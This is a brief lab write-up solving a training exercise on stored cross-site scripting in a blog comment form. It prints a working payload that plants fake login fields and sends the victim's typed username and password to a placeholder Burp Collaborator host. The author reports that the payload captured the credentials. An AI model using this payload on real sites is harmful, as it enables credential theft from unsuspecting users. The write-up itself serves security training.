 # Practitioner Lab 75: Exploiting cross-site scripting to capture passwords

---

This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

```
<b>Username:</><br>
<input name=username id=username>
<b>Password:</><br>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

Using this payload I was able to get the username and password 

![Untitled](Practitioner%20Lab%2075%20Exploiting%20cross-site%20scriptin%20e7a4719b40684caf94a8a621347b0ced/Untitled.png)

![Untitled](Practitioner%20Lab%2075%20Exploiting%20cross-site%20scriptin%20e7a4719b40684caf94a8a621347b0ced/Untitled%201.png)

Here You can see the username and password 

![Untitled](Practitioner%20Lab%2075%20Exploiting%20cross-site%20scriptin%20e7a4719b40684caf94a8a621347b0ced/Untitled%202.png)